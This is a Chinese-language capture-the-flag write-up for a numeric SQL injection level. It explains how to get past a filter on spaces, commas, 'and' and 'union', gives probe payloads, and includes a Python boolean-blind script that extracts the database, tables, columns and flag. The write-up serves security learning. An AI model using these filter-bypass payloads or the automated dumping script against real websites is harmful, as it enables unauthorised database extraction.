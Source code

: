 ```
第8关是一个SQL 注入漏洞, 注入点是数值型, 注入类型推荐使用布尔盲注,此关卡过滤了空格,逗号,and,union等关键字, 

1. 过滤空格, 可以使用括号() 或者注释/**/ 绕过
2. 过滤and, 可以使用or替代
3. 过滤union, 可以用盲注替代联合注入
4. 过滤逗号, 可以使用特殊语法绕过, 比如:substr(database(),1,1) 可以用substr(database() from 1 for 1)来代替
```


首先确定注入点, 输入以下payload使SQL恒成立

```cobol
?id=-1/**/or/**/true
```

 由于SQL恒成立, 数据库将查询出表中的所有内容, 并返回到前端展示

再输入一下payload 使SQL恒不成立

```cobol
?id=-1/**/or/**/false
```

 由于SQL恒不成立, 数据库查询不到任何数据, 从而导致页面空显示

由以上返回结果可知, 该页面存在SQL注入, 注入点为**数值型注入**



接下来进行脱库, 由于盲注脱库比较复杂, 此处我们构造Python脚本进行自动化脱库, 注意payload中的字符串不要换行, 否则可能会出问题

```python
import requests
 
url = 'http://4b5e1b2a-d612-4eb0-b228-c16500380436.challenge.ctf.show/index.php?id=-1/**/or/**/'
name = ''
 
# 循环50次(循环次数按照返回的字符串长度自定义)
for i in range(1, 50):
    # 获取当前使用的数据库
    # payload = 'ascii(substr(database()from/**/%d/**/for/**/1))=%d'
    # 获取当前数据库的所有表
    # payload = 'ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database())from/**/%d/**/for/**/1))=%d'
    # 获取flag表的字段
    # payload = 'ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name=0x666C6167)from/**/%d/**/for/**/1))=%d'
    # 获取flag表的数据
    payload = 'ascii(substr((select/**/flag/**/from/**/flag)from/**/%d/**/for/**/1))=%d'
    count = 0
    print('正在获取第 %d 个字符' % i)
    # 截取SQL查询结果的每个字符, 并判断字符内容
    for j in range(31, 128):
        result = requests.get(url + payload % (i, j))
 
        if 'If' in result.text:
            name += chr(j)
            print('数据库名/表名/字段名/数据: %s' % name)
            break
 
        # 如果某个字符不存在,则停止程序
        count += 1
        if count >= (128 - 31):
            exit()
```
